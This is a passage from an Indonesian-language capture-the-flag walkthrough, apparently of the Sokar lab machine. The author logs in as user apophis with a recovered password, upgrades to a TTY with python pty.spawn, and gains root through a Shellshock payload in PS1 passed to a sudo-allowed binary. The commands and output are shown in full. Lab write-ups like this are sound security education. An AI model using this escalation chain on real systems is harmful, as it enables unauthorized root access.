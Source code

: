 Aku dapatkan password apophis adalah "overdrive" tapi tak dapat password root.
Masuk sebagai apophis dari bynarr.

~~~~
sh-4.1$ su - apophis
su - apophis
standard in must be a tty
~~~~

Ditolak. Sepertinya kita harus upgrade.

~~~~
sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'

[bynarr@sokar ~]$ su - apophis
su - apophis
Password: overdrive

[apophis@sokar ~]$ id
id
uid=501(apophis) gid=502(apophis) groups=502(apophis)
~~~~

Berhasil masuk sebagai apophis.

# [#] Privilege Escalation

Setelah baca-baca tentang Shellshock, kita bisa memanfaatkan shellshock untuk mendapatkan privilege root.
Spesifiknya, kita menggunakan lime sekali lagi untuk loncatan.

~~~~
sh-4.1$ sudo PS1="() { :;}; /bin/sh" /home/bynarr/lime
sudo PS1="() { :;}; /bin/sh" /home/bynarr/lime

sh-4.1# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~~

Sip!

Mari kita lihat isi dari direktori /root untuk mencari flag.

~~~~
sh-4.1# ls -la /root
ls -la /root
total 36
dr-xr-x---.  2 root root 4096 Jan 15  2015 .
dr-xr-xr-x. 22 root root 4096 Nov 29 12:36 ..
-rw-------.  1 root root    0 Jan 27  2015 .bash_history
-rw-r--r--.  1 root root   18 May 20  2009 .bash_logout
-rw-r--r--.  1 root root  176 May 20  2009 .bash_profile
-rw-r--r--.  1 root root  176 Sep 23  2004 .bashrc
-rw-r--r--   1 root root  678 Jan  2  2015 build.c
-rw-r--r--.  1 root root  100 Sep 23  2004 .cshrc
-rw-r--r--   1 root root  837 Jan 15  2015 flag
-rw-r--r--.  1 root root  129 Dec  3  2004 .tcshrc
~~~~
